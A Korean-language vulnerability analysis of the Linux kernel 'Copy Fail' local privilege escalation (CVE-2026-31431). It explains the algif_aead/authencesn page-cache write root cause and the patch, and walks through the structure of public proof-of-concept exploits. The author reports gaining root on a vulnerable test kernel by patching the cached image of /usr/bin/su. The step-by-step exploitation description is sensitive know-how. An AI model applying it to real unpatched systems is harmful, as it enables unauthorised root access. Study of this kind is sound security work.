## 0. 완료 범위

| 항목 | 현재 상태 | 근거 |
| --- | --- | --- |
| Root Cause 분석 | 완료 | 2017년 도입 커밋과 2026년 수정 커밋 비교 |
| Ubuntu 기본 커널의 완화 조치 | 확인 | `install algif_aead /bin/false` |
| 취약 커널 6.18.21 빌드·부팅 | 완료 | `make kernelversion`, `uname -r = 6.18.21` |
| AF_ALG/AEAD 인터페이스 사용 | 성공 | `authencesn(hmac(sha256),cbc(aes))` 바인딩 성공 |
| 비파괴적 Page Cache 변조 검증 | **성공** | `page cache mutated`, `[!] VULNERABLE`, 종료 코드 100 |
| C 언어 `exploit`에 의한 root 권한 상승 | **직접 재현 성공** | `/usr/bin/su` 대상, `uid=0` 및 `id -ru=0` 실측 |

## 1. 배경지식

### 1.1 사용자·커널 공간

일반 프로그램은 사용자 공간(user space)에서 실행되고, 파일시스템·메모리·장치·암호화 기능처럼 보호된 자원은 커널이 관리한다. 사용자 프로그램은 `socket()`, `bind()`, `sendmsg()`, `splice()`, `recv()` 같은 시스템 호출로 커널 기능을 요청한다. 시스템 호출의 존재 자체가 악성은 아니다. 문제는 커널이 권한 경계를 넘는 메모리 쓰기를 허용할 때 발생한다.

**로컬 권한 상승(LPE)** 은 공격자가 이미 시스템에서 일반 사용자 수준으로 코드를 실행할 수 있다는 전제하에 더 높은 권한을 획득하는 공격이다. 이 CVE를 ‘원격에서 인증 없이 바로 root’라고 설명하면 안 된다.

### 1.2 Page Cache

Linux는 느린 디스크에서 매번 데이터를 읽는 비용을 줄이기 위해 파일 내용을 페이지 단위로 RAM에 캐시한다. 이 메모리 영역이 **Page Cache**다. 흔히 페이지는 4 KiB이지만 아키텍처·커널 설정에 따라 달라진다.

평범한 읽기 흐름: `디스크 파일 → Page Cache → 사용자 프로세스의 읽기 결과`. 캐시에 데이터가 있으면 디스크 재접근이 생략될 수 있다.

중요한 구분:

- **디스크 원본:** 저장장치에 기록된 파일 바이트.
- **Page Cache:** RAM에 보관된 해당 파일 페이지의 캐시 복사본.
- **Dirty 상태:** 정상적인 쓰기 경로에서 ‘디스크에 아직 반영되지 않은 변경 사항이 있음’을 알리는 관리 상태.

Copy Fail에서는 정상적인 파일 쓰기 절차를 거치지 않고 캐시의 바이트가 바뀔 수 있다. 그 결과 **캐시에서는 변조가 보이는데 디스크 원본은 그대로이고, 변경이 일반적인 Dirty 관리에도 포착되지 않을 수 있다.** 따라서 디스크 원본의 해시 검사만으로 현재 캐시의 무결성을 보장할 수 없다. 반대로 ‘모든 무결성 검사 우회’라고 일반화해선 안 된다.

### 1.3 `splice()`

`splice()`는 파일과 파이프 등의 데이터 경로 사이에서 불필요한 사용자 공간 복사를 줄이도록 설계된 시스템 호출이다. 상황에 따라 파일 데이터가 복사된 별도 버퍼가 아니라 **파일 페이지를 참조하는 파이프 버퍼**로 연결될 수 있다.

Copy Fail에서 이 특성이 중요한 이유는 **읽기 권한만 있는 파일의 캐시 페이지가 커널 내부 암호화 요청의 입력 측 페이지로 전달될 수 있기 때문**이다. 단순 `read()` 후 사용자 버퍼를 쓰는 경우와, `splice()`가 관여하는 페이지 참조 경로는 메모리 소유권이 다르다.

### 1.4 SGL과 TX/RX

Linux Crypto API는 하나의 연속 메모리 대신 여러 메모리 조각을 열거하는 **Scatterlist/SGL**을 이용할 수 있다. 각각의 엔트리는 데이터가 저장된 페이지·오프셋·길이 등의 정보를 표현한다.

| 용어 | 의미 |
| --- | --- |
| TX SGL | 암호화 처리로 전달된 전송/입력 측 데이터 목록 |
| RX SGL | 결과를 수신하는 출력 측 데이터 목록 |
| `src` | 암호화 요청의 입력 Scatterlist |
| `dst` | 암호화 요청의 출력 Scatterlist |
| **In-place** | `src`와 `dst`가 같은 메모리를 가리키거나 겹치는 처리 |
| **Out-of-place** | 입력과 출력을 별도의 영역으로 분리하는 처리 |

In-place 방식이 항상 취약한 것은 아니다. **입력 페이지가 쓰기 가능한지, 해당 페이지를 누가 소유하는지, 하위 암호화 함수가 어디에 쓰는지**에 대한 계약이 어긋날 때 취약점이 된다.

### 1.5 AEAD와 authencesn

AEAD(Authenticated Encryption with Associated Data)는 암호화와 인증(무결성 확인)을 결합한 방식이다. 암호문 외에도 암호화하지 않고 인증에 포함하는 **AAD(Associated Authenticated Data, 연관 인증 데이터)**를 처리한다.

`authencesn`은 IPsec의 **Extended Sequence Number(ESN)** 처리와 연관된 인증 암호화 템플릿이다. 본 실습의 PoC는 `authencesn(hmac(sha256),cbc(aes))`를 선택한다. 여기서 중요한 것은 암호 자체를 깨는 것이 아니라, 복호화 전처리 중 **시퀀스 번호 일부를 이동하기 위해 출력 SGL에 임시 쓰기를 한다는 점**이다.

### 1.6 AF_ALG와 algif_aead

`AF_ALG`는 Linux 사용자 공간에서 커널 암호화 기능을 사용하는 소켓 인터페이스다. `socket(AF_ALG, SOCK_SEQPACKET, 0)` 자체는 성공하더라도, 특정 `aead` 알고리즘을 `bind()`로 사용할 수 있다는 뜻은 아니다.

- `af_alg`: AF_ALG 공통 기능.
- `algif_aead`: 사용자 공간용 AEAD 소켓 인터페이스.
- `authencesn`: PoC에서 호출하는 암호화 알고리즘 템플릿.
- `modinfo`: 모듈 파일 메타데이터 조회(로드 여부와 다름).
- `lsmod`: 현재 로드된 모듈.
- `modprobe -n -v`: 실제로 로드하지 않고 적용될 설정을 확인.

Ubuntu는 이 CVE에 대한 임시 완화 조치로 `install algif_aead /bin/false`를 배포했다. 모듈 파일이 있더라도 일반적인 자동 로드가 차단될 수 있다. **모듈 차단과 커널 코드 패치는 별개의 방어 상태**다.

### 1.7 RUID, EUID, SetUID

Linux 권한 판단에는 실제 사용자 ID인 **RUID**와 권한 검사에 중요한 **EUID**가 등장한다. SetUID 비트가 설정된 실행 파일은 조건에 따라 파일 소유자의 EUID로 동작한다. 일반 사용자가 `su`를 실행해도 프로그램의 인증 및 권한 검사가 자동으로 우회되는 것은 아니다.

실습에서 `id`, `id -u`, `id -ru`는 모두 사용자 ID 1000을 나타냈고, `stat`에서 `/usr/bin/su`는 `root:root` 소유, 권한 `4755`로 확인됐다. 이것은 **권한 상승 이전의 기준 상태**이며 root 획득 증거는 아니다.

## 2. 취약점 개요

### 2.1 개요와 영향

- **구분:** Linux 커널 로컬 권한 상승(LPE), 파일 Page Cache 변조.
- **컴포넌트:** Crypto API의 `AF_ALG` / `algif_aead`와 `authencesn`의 메모리 처리 경로.
- **핵심 효과:** 조건을 만족하는 읽기 가능한 파일의 Page Cache에 공격자가 선택한 4바이트를 기록하는 원시 기능(write primitive). 반복 시 더 긴 바이트열을 변조할 수 있다.
- **일반적인 전제:** 공격자가 대상 Linux에서 일반 사용자 코드 실행 권한을 이미 갖고 있어야 하며, 관련 암호화 기능이 접근 가능해야 한다.
- **영향 예시:** 읽기 전용 파일 캐시 변조, 특권 실행 파일의 동작 변경 가능성, root 권한 상승 및 특정 컨테이너 환경에서의 영향 확대(각각 별도의 조건과 검증 필요).
- **공개 정보:** Theori/Xint가 2026-04-29 공개. CERT-EU 안내의 CVSS 7.8. 배포판별 보안 패치와 차단 정책은 서로 다르므로 버전 문자열 하나만으로 판단하지 않는다.

### 2.2 취약점 이력

| 구분 | 커밋 / 버전 | 요점 |
| --- | --- | --- |
| 원인 구조 도입 | `72548b093ee3` (2017) | `algif_aead`의 In-place 처리 도입 |
| 메인라인 수정 | `a664bf3d603d` (2026) | Out-of-place로 복구, AAD 복사는 유지 |
| 6.18 안정화 계열 수정 | **6.18.22** / `fafe0fa2995a…` | 수정 반영 |
| 실습 취약 빌드 | **6.18.21** | 수정 전 코드가 남은 커널로 직접 빌드·부팅 |
| 처음 설치한 Ubuntu 커널 | 7.0.0-43-generic (기반 7.0.14) | 수정된 구조로 보이는 바이너리 호출과 별도 모듈 차단 확인 |

이 취약점은 **2017년 최적화가 오랜 기간 커널에 남아 있었던 문제**다. 수정 커밋은 단일 파일만 고친 것이 아니라 `crypto/af_alg.c`, `crypto/algif_aead.c`, `crypto/algif_skcipher.c`, `include/crypto/if_alg.h`를 변경했다.

### 2.3 Root Cause

**핵심 한 문장:** 읽기 전용 파일에서 얻은 **Page Cache 페이지의 참조**가 커널 암호화 처리의 **출력용 Scatter-Gather List(SGL)**에 연결되었고, 그 출력을 작업 공간처럼 사용하던 `authencesn`이 정상 출력 범위를 벗어난 위치에 4바이트를 기록했다.

이 취약점은 `splice()` 하나의 버그나 `authencesn` 하나의 단순한 경계 검사 오류만으로 설명하기 어렵다. **서로 다른 서브시스템의 메모리 소유권에 관한 가정이 충돌**한 결과다.

#### ① splice와 Page Cache

일반적인 `read()`는 파일의 Page Cache에서 사용자 버퍼로 바이트를 복사한다. 두 메모리 영역이 별도로 존재하기 때문에 사용자 버퍼를 변경해도 원본 캐시 페이지가 곧바로 바뀌지는 않는다.

반면 `splice()`는 파일과 파이프 사이에서 데이터 복사 대신 **페이지 참조를 전달**할 수 있다. 이후 AF_ALG 암호화 소켓의 입력 영역으로 전달된 SGL 엔트리가 같은 파일 Page Cache 페이지를 가리킬 수 있다.

```
일반 read()
파일 Page Cache ──복사──▶ 사용자 버퍼 (별도 메모리)

splice()가 사용하는 경로
파일 Page Cache ──페이지 참조──▶ 파이프
                                    │
                                    ▼
                            AF_ALG 입력 SGL(TX)
                       (파일 캐시 페이지를 참조 가능)
```

- **Page Cache:** 커널 메모리에 캐시된 파일 내용.
- **파이프:** 데이터 전달을 위한 커널 버퍼 구조. `splice()`는 이 과정에서 원본 페이지를 참조할 수 있다.
- **SGL 엔트리:** 페이지·오프셋·길이 등 메모리 조각의 위치를 설명하는 항목.
- **중요:** 이 단계까지는 정상적인 **읽기** 경로다. 파일을 읽을 수 있다는 사실이 쓰기 권한을 의미하지는 않는다.

#### ② In-place와 SGL

AEAD 복호화의 논리적 입력은 보통 `AAD(인증 연관 데이터) || 암호문(CT) || 인증 태그(Tag)`다. 이 중 **인증 태그**는 암호문의 무결성을 검증할 때 필요하지만, 정상적인 평문 출력 결과에는 포함되지 않는다.

원래는 다음처럼 입력과 출력을 분리하여 관리할 수 있다.

```
src: [ AAD | 암호문 | 태그 ]  ← 입력, 파일 Page Cache 참조 가능
dst: [ AAD | 평문       ]  ← 별도 쓰기 가능한 출력 버퍼
```

그러나 취약한 `algif_aead`의 In-place 처리 경로는 메모리 복사 비용을 줄이면서 다음과 같은 결합 구조를 만들었다.

1. **AAD와 암호문 영역**은 출력용 RX 버퍼로 복사한다. 이 부분은 실제로 바이트를 복사한 메모리다.
2. 입력 SGL 끝의 **인증 태그 영역**은 별도로 복사하지 않고 `sg_chain()`을 통해 출력 SGL의 뒤에 **참조 방식**으로 이어 붙인다.
3. 이 결합된 SGL을 암호화 요청의 입력과 출력으로 함께 사용한다. 이 때문에 `req->src`와 `req->dst`가 같은 SGL 구조를 가리키게 된다.

```
[입력 TX SGL]  AAD | 암호문 | 태그(파일 Page Cache 참조)
                  │      │             │
                  └──복사┘             │ sg_chain()으로 참조 연결
                     ▼                 ▼
[출력 RX SGL]  AAD | 암호문  ───────▶  태그 페이지
                 별도 버퍼             원본 파일 Page Cache
                        └──────────────┴──────────┘
                              결합된 SGL
                        req->src == req->dst
```

**여기서 중요한 정정:** 입력과 출력의 **모든 바이트가 원본 파일 메모리를 공유하는 것은 아니다.** 앞부분의 AAD/암호문은 출력 버퍼에 복사되지만, **출력 SGL 뒤에 연결된 태그 부분**에는 파일 Page Cache의 직접 참조가 남는다. 따라서 이 결합 SGL을 '쓰기 가능한 출력'처럼 취급하는 순간 파일 캐시가 잠재적 쓰기 대상이 된다.

#### ③ authencesn의 4바이트 쓰기

`authencesn`은 IPsec의 **Extended Sequence Number(ESN)** 처리를 위한 AEAD 래퍼다. ESN 시퀀스 번호에 관한 바이트 순서를 맞추기 위해, 복호화의 사전 처리 과정에서 `dst`를 임시 작업 공간(Scratch pad)으로 사용한다.

문제의 코드 흐름은 `crypto_authenc_esn_decrypt()`에서 다음처럼 나타난다. 아래는 핵심 부분을 발췌한 것이다.

```c
struct scatterlist *src = req->src;  // 암호화 입력 SGL
struct scatterlist *dst = req->dst;  // 복호화 출력 SGL
u32 tmp[2];                          // ESN 처리를 위한 8바이트 임시 값

/* 중간의 인증 태그 길이 확인·길이 계산은 생략 */
memcpy_from_sglist(tmp, src, 0, 8);  // AAD 앞의 8바이트를 읽는다

if (src == dst) {  // In-place: 입력과 출력이 동일한 SGL일 때
    memcpy_to_sglist(dst, 4, tmp, 4);
    // 출력 SGL의 AAD 내부 4바이트 위치에 임시 기록

    memcpy_to_sglist(dst, assoclen + cryptlen, tmp + 1, 4);
    // 정상 복호화 출력 범위의 끝 부분을 넘어선 곳에 4바이트 임시 기록
    // 이 위치가 체인된 파일 Page Cache 참조에 닿으면 캐시가 바뀔 수 있음
}
```

- `src == dst`: 같은 SGL을 사용하고 있으므로 별도 출력 버퍼라는 가정을 할 수 없는 상황이다.
- `tmp`: ESN 관련 데이터를 저장해 두는 임시 배열. `tmp + 1`은 두 번째 32비트 값의 주소다.
- `memcpy_to_sglist(dst, 4, tmp, 4)`: SGL 시작에서 4바이트 떨어진 위치에 4바이트를 기록한다. 주로 AAD 내부의 재배치다.
- `memcpy_to_sglist(dst, assoclen + cryptlen, tmp + 1, 4)`: **문제의 핵심 기록 지점**이다. 이 함수의 `cryptlen`은 인증 태그 길이를 제외하도록 조정된 상태다. 따라서 해당 위치는 정상 복호화 출력(AAD와 평문) 뒤쪽이며, 결합 SGL의 **체인된 태그 페이지**를 가리킬 수 있다.
- `memcpy_to_sglist()`: SGL 엔트리들을 따라가서 지정한 오프셋에 메모리를 쓴다. 그 메모리가 파일 Page Cache를 참조하는지 별도로 파일 쓰기 권한을 검사하는 VFS 경로를 거치지 않는다.

**중요한 메모리 구분**

```
출력 SGL의 논리적 배치
┌───────────────────────────┬────────────────────────────┐
│ 정상 출력 영역             │ 체인된 태그/페이지 참조 영역  │
│ (출력용 RX 메모리)         │ (원본 파일 Page Cache)       │
└───────────────────────────┴────────────────────────────┘
                            ▲
              authencesn의 임시 4바이트 쓰기가
              이 경계를 넘어 파일 캐시에 도달 가능
```

정상 복호화 출력을 기록할 버퍼는 쓰기 가능한 영역이어야 하지만, **그 뒤에 연결된 파일 캐시 참조를 임시 쓰기 공간으로 이용해서는 안 된다.** 이 계약이 깨진 것이 Copy Fail의 핵심이다.

#### ④ 인증 실패 후 변조

AEAD는 복호화 과정에서 인증 태그를 검사해 데이터가 올바른지 판단한다. 일반적으로 인증이 실패하면 데이터를 신뢰해서는 안 된다. 그런데 여기서는 **인증 실패 여부를 최종적으로 판정하기 전에** 위 임시 4바이트 쓰기가 먼저 일어날 수 있었다.

```
인증 데이터 재배치
        ↓
dst에 임시 4바이트 쓰기 발생  ← 이 시점에 Page Cache 변경 가능
        ↓
인증 태그/HMAC 검증
        ↓
실패(-EBADMSG 등) 반환
        ↓
이미 발생한 커널 메모리 쓰기가 자동으로 취소되지는 않음
```

즉 **함수가 오류를 반환했다는 사실과, 함수 실행 중 메모리가 변경되지 않았다는 사실은 다르다.** 정상적인 쓰기 API를 사용한 것도 아니므로, 파일 권한 검사나 일반적인 파일 Dirty 처리 경로와 분리되어 있다. 그래서 디스크 원본은 유지된 채 메모리의 파일 캐시만 변조되는 현상이 가능해진다.

#### ⑤ 취약점 성립 조건

| 요소 | 단독으로는 | 결합 시 문제 |
| --- | --- | --- |
| `splice()` | 읽기 가능한 파일의 페이지를 복사 없이 전달하는 정상 기능 | 파일 Page Cache 참조가 암호화 입력에 도달 |
| `algif_aead` In-place | 입력·출력 메모리를 공유해 복사를 줄이려는 최적화 | 태그 페이지 참조가 출력 SGL의 일부로 연결 |
| `authencesn`의 임시 쓰기 | 출력 영역을 작업 공간처럼 이용하는 ESN 처리 | 정상 출력 범위를 넘어선 쓰기가 연결된 Page Cache를 변경 |

**최종 결론:** 취약점의 본질은 단순히 읽기 전용 파일을 `splice()`했다는 것이 아니다. **읽기 전용 파일의 Page Cache 참조를 쓰기 가능한 출력 SGL에 잘못 포함시킨 설계와, 그 경계를 넘어 임시 쓰기를 수행하는 암호화 알고리즘의 결합**이다.

**참고 근거:** [Linux crypto/authencesn.c](https://github.com/torvalds/linux/blob/master/crypto/authencesn.c) · [Unit 42 Root Cause 분석](https://unit42.paloaltonetworks.com/cve-2026-31431-copy-fail/) · [IGLOO 보안 기술 분석](https://www.igloopedia.com/35ff216a-760c-8008-be7e-c1deb0a61f76)

### 2.4 문제의 코드

실습에서 확인한 `crypto/authencesn.c`, `crypto_authenc_esn_decrypt()` 인근:

```c
struct scatterlist *src = req->src;
struct scatterlist *dst = req->dst;

/* 개념상 핵심 경로: 원본 코드 일부 */
if (src == dst) {
    memcpy_to_sglist(dst, 4, tmp, 4);
    memcpy_to_sglist(dst, assoclen + cryptlen, tmp + 1, 4);
    dst = scatterwalk_ffwd(areq_ctx->dst, dst, 4);
}
```

`memcpy_to_sglist(dst, ..., 4)`는 선택된 Scatterlist에 **4바이트를 기록**한다. 이 함수가 존재한다는 사실만으로 취약점은 아니다. `src==dst`의 별칭 관계와 파일 캐시 페이지 연결 경로를 동시에 확인해야 Root Cause가 완성된다.



### 2.5 패치 비교

실습에서 `git show a664bf3d603d -- crypto/algif_aead.c`로 확인한 대표 호출:

```c
/* 패치 전: RX 쪽 SGL이 입력으로 재사용될 수 있는 구조 */
aead_request_set_crypt(&areq->cra_u.aead_req,
                       rsgl_src,
                       areq->first_rsgl.sgl.sgt.sgl,
                       used, ctx->iv);

/* 패치 후: TX 입력 / RX 출력 분리 */
memcpy_sglist(rsgl_src, tsgl_src, ctx->aead_assoclen);
aead_request_set_crypt(&areq->cra_u.aead_req,
                       tsgl_src,
                       areq->first_rsgl.sgl.sgt.sgl,
                       used, ctx->iv);
```

함수의 인자는 `(req, src, dst, cryptlen, iv)`다. 패치 후에는 `src=tsgl_src`, `dst=RX SGL`로 분리되어, 파일 캐시를 읽는 입력 페이지가 같은 요청의 출력 쓰기 대상이 되는 위험을 제거한다.

실습에서는 수정 전 파일 528줄, 수정 후 466줄로 추출했고, 실제 Ubuntu 7.0 커널 모듈 역어셈블리에서도 `af_alg_count_tsgl → sock_kmalloc → sg_init_table → af_alg_pull_tsgl → memcpy_sglist` 호출이 확인됐다. 이것은 수정 구조와 일치하는 강한 정황이지, 그것만으로 전체 런타임 패치 상태를 기계적으로 증명하는 것은 아니다.



## 3. 공개 PoC 분석

### 3.1 PoC 구분

| 구분 | 파일 / 저장소 | 목적 | 본 실습 |
| --- | --- | --- | --- |
| 공개 원본 | `theori-io/copy-fail-CVE-2026-31431 / copy_fail_exp.py` | SetUID 프로그램의 캐시 변조를 이용한 root 권한 상승 시도 | **정적 분석만 완료** |
| C 포트의 검증기 | `tgies/copy-fail-c / vulnerable.c` | 임시 파일의 Page Cache를 변조하여 취약 여부 판단 | **실행 성공** |
| C 포트의 권한 상승 PoC | `tgies/copy-fail-c / exploit.c` | SetUID 프로그램의 캐시 변조를 통한 root 셸 획득 시도 | **실행 및 root 셸 확인** |

이 차이를 혼동하면 `Checker exit code: 100`을 'root 권한 상승 성공'으로 잘못 해석할 수 있다. `100`은 **검증기가 파일 캐시 변조를 확인했다는 뜻**이다.

### 3.2 Python 원본 PoC

원본 `copy_fail_exp.py`는 짧고 난독화·압축된 형태다. 표면적으로 10줄가량이지만 다음 작업이 연결되어 있다.

1. `AF_ALG` 소켓 생성 및 `authencesn(hmac(sha256),cbc(aes))` 알고리즘 지정.
2. 암호화 키·연관 인증 데이터·요청 파라미터 준비.
3. `sendmsg()`로 암호화/복호화 요청을 설정하고, `splice()`를 통해 대상 파일과 연결된 페이지를 커널 암호화 경로에 전달.
4. `recv()`로 하위 AEAD 복호화 처리를 유도. 이 과정에서 취약한 In-place 처리와 `authencesn`의 임시 4바이트 쓰기가 결합.
5. 원본 PoC의 최종 목표는 root 소유 SetUID 실행 파일의 **메모리상 실행 이미지를 변경**한 뒤 특권 실행 흐름에 영향을 주어 root 권한을 얻는 것.

위 내용은 Theori의 원본 **Python PoC의 개념적 흐름**이다. 본 실습에서는 원본 Python 파일을 실행하지 않았지만, 별도의 `tgies/copy-fail-c` C 구현 `exploit`으로 동일 CVE를 이용한 **root 권한 상승 결과를 직접 확인**했다(5.8절 참조).

### 3.3 검증기 개요

`vulnerable.c`는 자체 `testfile`을 만들고 처음 내용 `init`을 읽은 뒤, 동일한 커널 쓰기 원시 기능을 사용해 임시 파일 캐시에서 `vulnerable` 문자열이 읽히는지 확인한다. 테스트 파일은 종료 시 정리된다. 이전에 별도로 생성한 `~/CVE-2026-31431/repro/test_target.bin`(권한 0444)과 **서로 다른 파일**이다.

검증기의 종료 코드:

- `100`: 실제 파일 캐시 변조 확인.
- `0`: 검사했으나 변조가 관찰되지 않음.
- `2`: AF_ALG 또는 선택한 알고리즘에 접근 불가(패치 여부 판정 불가).
- `1`: 기타 실행 오류.
- `127`: 셸이 프로그램 자체를 찾지 못한 경우(검증기 종료 코드가 아님).

### 3.4 실행 파일 구성

이 저장소를 이해할 때는 **C 소스 파일**, **목적 파일(.o)**, **독립 실행 파일(ELF)**, **실행 파일 안에 포함된 바이너리 데이터**를 구분해야 한다. 특히 `payload.o`는 일반적인 'payload.c를 컴파일한 기계어 목적 파일'과 용도가 다르다.

```
                    [빌드 시점]
payload.c + nolibc/ + compat.h
             │
             ▼
      payload (독립 ELF)
             │
             ▼ 바이너리 데이터를 목적 파일로 포장
         payload.o ───────────────┐
                                  │
utils.c + utils.h                 │
       │                          │
       ▼                          │
    utils.o ──────────────────────┤
                                  │
exploit.c ────────────────────────┤
                                  ▼
                        exploit (최종 ELF 실행 파일)

                    [실행 시점]
       exploit의 main()에서 공격 흐름 제어
          ├─ 내장 ELF 데이터에 접근
          ├─ utils.o에서 온 공통 함수 호출
          └─ 특권 실행 이미지가 바뀌는 상황을 유도
                             │
                             ▼
               payload에 정의된 동작 실행 시도
```

| 구분 | 내용 | 자주 하는 오해 |
| --- | --- | --- |
| `exploit.c` | 최종 프로그램의 `main()`과 전체 실행 흐름 | 공격이 여기서 바로 root로 바뀌는 것은 아님 |
| `utils.c` → `utils.o` | 공통 함수 `patch_chunk()`, 오류 안내 함수 | `utils.c`를 별도의 프로세스로 실행하지 않음 |
| `payload.c` → `payload` | 별도 ELF로 빌드되는 매우 작은 프로그램 | `payload.c`가 `exploit.c`의 함수처럼 직접 호출되는 것이 아님 |
| `payload` → `payload.o` | 완성된 ELF 전체를 바이트 데이터로 포함 | 링크된 `payload.o`의 데이터가 곧바로 CPU에서 실행되는 것은 아님 |
| `exploit` | 프로그램 코드 + 공통 함수 + 내장 페이로드 데이터 | 이것이 최종적으로 실행하는 파일 |
| `vulnerable` | 별도 빌드되는 검사 프로그램 | `payload.o`가 필요하지 않음 |

**핵심:** 최종 `exploit` 하나가 실행되는 것은 맞지만, 그 안에는 서로 다른 용도의 코드와 데이터가 포함되어 있다.

### 3.5 Makefile과 빌드

[실제 Makefile](https://github.com/tgies/copy-fail-c/blob/main/Makefile)

Make는 각 타깃의 선행 의존성이 준비되어 있는지 확인하고, 필요할 때 해당 타깃의 빌드 명령을 실행한다. 이 저장소에서 기본 타깃은 `exploit`, `exploit-passwd`, `vulnerable` 세 실행 파일로 구성된다.

**빌드 관계**

```
payload.c → payload → payload.o ─┐
utils.c   → utils.o ─────────────┼→ exploit
exploit.c ───────────────────────┘

utils.o + vulnerable.c ───────────→ vulnerable
utils.o + exploit-passwd.c ───────→ exploit-passwd
```

**주요 빌드 개념**

| 항목 | 이유 |
| --- | --- |
| `-static` | 페이로드를 동적 라이브러리 의존성 없이 실행할 수 있는 형태로 구성 |
| `-nostdlib` | 일반 C 런타임과 표준 라이브러리 시작 코드를 제외 |
| `-ffreestanding` | 일반적인 hosted C 실행 환경을 가정하지 않는 빌드 |
| `-Os` / `-s` | 파일 크기를 줄이고 불필요한 심볼 정보를 제거 |
| `nolibc/` | 작은 ELF를 위한 시스템 호출·시작 코드 등 제공 |
| `compat.h` | 일부 오래된 Linux UAPI 헤더의 타입 호환성 |
| `ld -r -b binary` | 이미 만들어진 `payload` 파일을 목적 파일 안의 **바이너리 데이터**로 포장 |
| `utils.o` 링크 | 여러 실행 파일이 공유하는 기능을 하나의 목적 파일에서 제공 |

**왜 '작은 페이로드'가 중요한가?** 이 PoC는 빌드된 ELF의 바이트를 캐시에 기록하는 방식이라 페이로드 길이가 직접적으로 처리량에 영향을 준다. 실제 실습에서 `720 bytes (180 iterations)`가 출력된 것은 빌드 산출물의 크기가 720바이트였고, 4바이트 단위 작업이 180회 필요하다고 프로그램이 계산했음을 뜻한다. 이것은 모든 빌드에서 불변인 상수가 아니다.

#### payload.o의 심볼

`Makefile`의 바이너리 포장 단계는 `_binary_payload_start`, `_binary_payload_end`, `_binary_payload_size`라는 심볼을 만든다. `exploit.c`는 이 중 시작과 끝 심볼을 외부 배열처럼 선언해 **페이로드의 시작 주소와 길이**를 얻는다.

- **start:** 최종 실행 파일에 포함된 페이로드 바이트열의 시작 위치.
- **end:** 그 바이트열이 끝나는 위치. 시작 주소와의 차이로 길이를 구할 수 있다.
- **size:** 링커가 함께 제공하는 크기 관련 심볼. 현재 `exploit.c`는 시작/끝 심볼을 이용한다.

즉 페이로드는 '별도로 파일을 열어 읽는 파일'이 아니라, **컴파일 시 최종 `exploit`에 함께 포함되는 데이터**다.

### 3.6 exploit.c

[실제 exploit.c](https://github.com/tgies/copy-fail-c/blob/main/exploit.c)

이 파일의 핵심은 ① 인자를 처리해 대상과 실행 명령을 정하는 것, ② 내장된 ELF 페이로드 데이터의 길이를 파악하는 것, ③ 공통 변조 함수의 결과를 검사하는 것, ④ 마지막 실행 단계로 제어를 넘기는 것이다.

**코드 구성별 역할**

| 코드 요소 | 의미 |
| --- | --- |
| `#define _GNU_SOURCE` | GNU/Linux 확장 인터페이스를 헤더에서 사용할 수 있도록 함 |
| `#include "utils.h"` | `patch_chunk()`와 `explain_patch_failure()`의 함수 선언 가져오기 |
| `extern ... _binary_payload_start/end` | 링커가 생성한 심볼을 이 C 파일에서 사용하겠다고 선언 |
| `PAYLOAD`, `PAYLOAD_LEN` | 내장된 ELF 데이터의 시작 위치와 길이를 표현 |
| `main(int argc, char **argv)` | 실제 `exploit` 실행 시 시작되는 메인 함수 |
| `argc`, `argv` | 사용자에게 전달받은 실행 인자의 개수와 값 |
| `file_fd` | 읽기 전용으로 연 대상 파일의 디스크립터 |
| `len`, `iters` | 내장 페이로드의 바이트 길이와 계산된 처리 횟수 |
| `patch_chunk()` | 공통 모듈의 페이지 캐시 변조 원시 기능 호출 |
| `explain_patch_failure(errno)` | API 접근 문제 등 특정 실패 원인을 설명 |
| `execl()` | 마지막에 셸을 통해 지정된 프로그램 실행을 시도 |

**메인 함수의 진행 단계**

1. **대상 선택 및 파일 열기:** 인자가 없을 경우 기본 대상으로 `/usr/bin/su`를 사용한다. 파일을 읽기 전용으로 열어 얻은 `file_fd`가 이후 공통 함수에 전달된다. 읽기 전용 `open()`이 파일 쓰기 권한을 부여하는 것은 아니다.
2. **내장 ELF 데이터 확인:** `PAYLOAD`는 바이트 배열의 시작 주소이며 `PAYLOAD_LEN`은 그 길이다. 출력된 페이로드 크기는 **원본 `payload.c` 파일의 글자 수가 아닌 빌드된 ELF 파일의 크기**를 의미한다.
3. **변조 작업 진행:** 프로그램은 페이로드 데이터를 작은 단위로 순회하면서 `patch_chunk()`에 위임한다. 이때 파일 디스크립터, 위치, 데이터가 서로 다른 역할을 한다. 실제 커널 취약점 처리 코드는 `exploit.c`에 중복 작성되어 있지 않고 `utils.c`에 모여 있다.
4. **오류 처리:** `patch_chunk()`가 실패하면 `errno`를 참조해 환경상 오류를 설명하고 종료한다. 성공 메시지가 나온 경우는 이 호출들이 프로그램 관점에서 실패하지 않았다는 의미다.
